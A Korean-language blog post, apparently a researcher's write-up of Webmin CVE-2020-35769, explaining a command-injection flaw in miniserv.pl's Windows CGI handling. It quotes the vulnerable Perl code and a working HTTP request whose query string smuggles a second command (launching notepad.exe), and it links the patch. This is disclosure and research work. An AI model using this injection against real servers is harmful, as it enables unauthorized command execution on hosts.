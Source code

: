 ```yaml
---
layout: post
title: "Webmin CVE-2020-35769"
author: "say2"
tags: [webmin,bughunting]
categories: [Hacking,Bughunting]
---
```



뻘글이라도 블로그를 관리하기로 생각했는데, 못하고 있어서 관리차 예전에 찾았던 webmin 취약점에 대해 포스팅을 하기로 했다.

먼저 admin panel에 대해 무지하기도 하고 관심도 없었던 내가 webmin을 보게된 계기는 업무중에 이 돌아가는 서버를 발견했었는데, 

생각보다 취약점(크리티컬한..)에 높은 값어치가 매겨지고 있었고 있었던 [1-day](https://github.com/jas502n/CVE-2019-15107)가 생각보다 너무 심플해서 날먹이 되지않을까 싶었기 때문이다.

코드를 받아 열어보니 perl로 짜여진 web상에서 서버를 관리하기 위한 admin panel서비스였고 특이한 점은 apache 와 같은 웹서버를 사용하지 않고 miniserv.pl이라는 스크립트로 http request를 socket으로 직접받아 처리한다는 것이었다.

miniserv.pl에서 하는일은 꽤 많았는데
1. config 파일 파싱
2. authentication check
3. Uri check according to authority
...

등이 있었다. 

코드를 오래볼 생각은 없었기에 크리티컬한 부분 기준으로 우선순위를 먼저 잡고 원데이를 나열해보았다.

1. miniserv.pl 에서 preauth로 접근가능한 기능, (miniserv.pl 에서 preauth로 허용한 cgi (password_change.cgi) -CVE-2019-15107)

2. 기본권한의 유저가 접근가능한 webmin 기능, 기본권한의 유저가 접근가능한 miniserv.pl 기능 - CVE-2019-15642

3. 로그인 유저에 허용되어있는 webmin 기능 - CVE-2019-12840

원데이를 조사하면서 취약점들이 대부분 cgi에 집중되어있다고 생각했고 preauth cgi 리스트를 나열해보았다. 

- /session_login.cgi
- (/password_change.cgi, /password_form.cgi, pam_login.cgi) - need option
- (xmlrpc.cgi)

preauth 벡터가 너무 적어서 miniserv.pl자체의 취약점을 찾아 봐야겠다는 생각이 들었다. 

취약점이 너무 심플해서 사족을 많이 붙였는데 눈을 의심하게 하는 취약점이다. 


```perl
	if ($on_windows) {
		# Run the CGI program, and feed it input
		chdir($ENV{"PWD"});
		local $qqueryargs = join(" ", map { "\"$_\"" }
					 split(/\s+/, $queryargs));
		if ($first =~ /(perl|perl.exe)$/i) {
			# On Windows, run with Perl
			open(CGIOUTr, "$perl_path \"$full\" $qqueryargs <$infile |");
			}
		else {
			open(CGIOUTr, "\"$full\" $qqueryargs <$infile |");
			}
		binmode(CGIOUTr);
		}
```

windows환경의 webmin에서만 위의 코드가 실행이 되는데

$queryargs는 url request의 get parameter영역에서 가져오고 perl에서 open은 execv와 비슷한 역할을 한다.  

"를 씌우는 방식은 아래와 같이 쉽게 우회가 가능하다.

```
GET /password_change.cgi?aabb"|"notepad.exe%20C:\Users\test\Downloads\test.txt" HTTP/1.1
Host: 172.16.76.242:10000
Authorization: Basic dGVzdDp0ZXN0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.76.242:10000/
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6,zh;q=0.5
Connection: close
```

preauth처럼 보이지만 아쉽게도 완전 default환경에서는 preauth가 될 수 없었다. 

webmin을 설치할때 디폴트 miniserv.conf이 linux와 window가 다른데, linux에서는 session=1, window에서는 session=0가 default config 파일로 들어간다. 
 
취약점이 트리거 되려면 어떤 cgi든 접근이 하나는 가능해야하는데 session=0일 경우 preauth로 어떠한 cgi도 접근이 불가능해진다. 

따라서 default 옵션의 경우 권한제한 없이 아무 계정이나 하나 필요하게 된다.(Authorization: Basic dGVzdDp0ZXN0)




patch : https://github.com/webmin/webmin/commit/1163f3a7f418f249af64890f4636575e687e9de7